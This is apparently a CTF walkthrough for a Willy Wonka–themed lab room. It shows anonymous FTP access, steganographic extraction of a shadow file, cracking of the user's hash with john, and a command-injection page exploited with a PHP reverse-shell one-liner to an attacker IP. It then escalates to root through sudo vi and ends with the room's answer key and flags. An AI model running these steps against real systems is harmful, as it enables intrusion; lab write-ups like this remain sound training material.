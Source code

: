 ```yaml
---
A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory!
---
```

### rustscan

> found port 21 ftp, port 22 ssh, port 80 http and more

### ftp

```anonymous
ftp 10.10.10.71
```

>Connected to 10.10.10.71.
220 (vsFTPd 3.0.3)
Name (10.10.10.71:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||21456|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
226 Directory send OK.
ftp> get gum_room.jpg
local: gum_room.jpg remote: gum_room.jpg
229 Entering Extended Passive Mode (|||52109|)
150 Opening BINARY mode data connection for gum_room.jpg (208838 bytes).
100% |**************************************|   203 KiB  115.47 KiB/s    00:00 ETA
226 Transfer complete.
208838 bytes received in 00:02 (95.84 KiB/s)
ftp> exit
221 Goodbye.

### steghide

```blank
steghide extract -sf gum_room.jpg 
```

```
cat b64.txt | base64 -d
```

>daemon:*:18380:0:99999:7:::
bin:*:18380:0:99999:7:::
sys:*:18380:0:99999:7:::
sync:*:18380:0:99999:7:::
games:*:18380:0:99999:7:::
man:*:18380:0:99999:7:::
lp:*:18380:0:99999:7:::
mail:*:18380:0:99999:7:::
news:*:18380:0:99999:7:::
uucp:*:18380:0:99999:7:::
proxy:*:18380:0:99999:7:::
www-data:*:18380:0:99999:7:::
backup:*:18380:0:99999:7:::
list:*:18380:0:99999:7:::
irc:*:18380:0:99999:7:::
gnats:*:18380:0:99999:7:::
nobody:*:18380:0:99999:7:::
systemd-timesync:*:18380:0:99999:7:::
systemd-network:*:18380:0:99999:7:::
systemd-resolve:*:18380:0:99999:7:::
_apt:*:18380:0:99999:7:::
mysql:!:18382:0:99999:7:::
tss:*:18382:0:99999:7:::
shellinabox:*:18382:0:99999:7:::
strongswan:*:18382:0:99999:7:::
ntp:*:18382:0:99999:7:::
messagebus:*:18382:0:99999:7:::
arpwatch:!:18382:0:99999:7:::
Debian-exim:!:18382:0:99999:7:::
uuidd:*:18382:0:99999:7:::
debian-tor:*:18382:0:99999:7:::
redsocks:!:18382:0:99999:7:::
freerad:*:18382:0:99999:7:::
iodine:*:18382:0:99999:7:::
tcpdump:*:18382:0:99999:7:::
miredo:*:18382:0:99999:7:::
dnsmasq:*:18382:0:99999:7:::
redis:*:18382:0:99999:7:::
usbmux:*:18382:0:99999:7:::
rtkit:*:18382:0:99999:7:::
sshd:*:18382:0:99999:7:::
postgres:*:18382:0:99999:7:::
avahi:*:18382:0:99999:7:::
stunnel4:!:18382:0:99999:7:::
sslh:!:18382:0:99999:7:::
nm-openvpn:*:18382:0:99999:7:::
nm-openconnect:*:18382:0:99999:7:::
pulse:*:18382:0:99999:7:::
saned:*:18382:0:99999:7:::
inetsim:*:18382:0:99999:7:::
colord:*:18382:0:99999:7:::
i2psvc:*:18382:0:99999:7:::
dradis:*:18382:0:99999:7:::
beef-xss:*:18382:0:99999:7:::
geoclue:*:18382:0:99999:7:::
lightdm:*:18382:0:99999:7:::
king-phisher:*:18382:0:99999:7:::
systemd-coredump:!!:18396::::::
_rpc:*:18451:0:99999:7:::
statd:*:18451:0:99999:7:::
_gvm:*:18496:0:99999:7:::
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::

### john

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=sha512crypt
```
==cn7824           (charlie) ==
### gobuster

```
gobuster dir --url http://10.10.10.71 -w /usr/share/wordlists/dirb/common.txt -t 60 -k -x py,html,txt,php,tar,zip,old,bak
```

> /home.php             (Status: 200) [Size: 569]

>we got command injection on this page

```
php -r '$sock=fsockopen("10.18.1.00",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

`kali machine`

```
rlwrap nc -nlvp 4444
```
```
script -qc /bin/bash /dev/null
```
```
strings key_rev_key
```
>Enter your name: 
laksdhfas
 congratulations you have found the key:   
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
 Keep its safe

```
cat validate.php
```
`if($uname=="charlie" && $password=="cn7824")`

```
cat teleport
```

> copy id_rsa to kali machine

```
nano charlie_key
```
```
chmod 600 charlie_key
```

### ssh

```
ssh -i charlie_key charlie@10.10.10.71 
```

```
cat /home/charlie/user.txt
```

### priv esc

```
sudo -l
```

==(ALL : !root) NOPASSWD: /usr/bin/vi==

```gtfobins
sudo vi -c ':!/bin/sh' /dev/null
```

```
cd /root
```

```key
python root.py
```

`enter key found`

>print(mess)# python root.py
Enter the key:  b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
__   __               _               _   _                 _____ _          



- Enter the key you found!*b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='*
- What is Charlie's password?*cn7824*
- change user to charlie *No answer needed*
- Enter the user flag*flag{cd5509042371b34e4826e4838b522d2e}*
- Enter the root flag*flag{cec59161d338fef787fcb4e296b42124}*
